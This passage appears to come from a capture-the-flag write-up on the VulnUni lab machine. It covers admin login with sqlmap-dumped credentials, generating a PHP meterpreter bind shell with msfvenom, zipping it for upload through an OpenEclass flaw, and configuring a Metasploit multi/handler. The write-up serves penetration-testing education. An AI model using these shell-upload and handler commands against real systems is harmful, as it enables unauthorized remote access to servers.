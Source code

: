 Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni7.png">
    </div>
</div>
<div class="caption">
    A burpsuite repeater session using the dumped credentials to log into the application as admin
</div>  

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.  

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
``` 

Before the exploit could be uploaded to the application, it needed to be zipped and compressed. Once zipped, I uploaded it to the vulnuni webserver.

```bash
root@kali$ zip bind-meterpreter bind-meterpreter.php 
  adding: bind-meterpreter.php (deflated 62%)
```  

<br/>
#### Target Infiltration  

With the exploit ready, I started a metasploit session and opened a multi/handler to connect to the bind shell.  

```bash
root@kali$ msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.8.130
LHOST => 192.168.8.130
msf5 exploit(multi/handler) > set RHOST 192.168.8.132
RHOST => 192.168.8.132
msf5 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf5 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
``` 
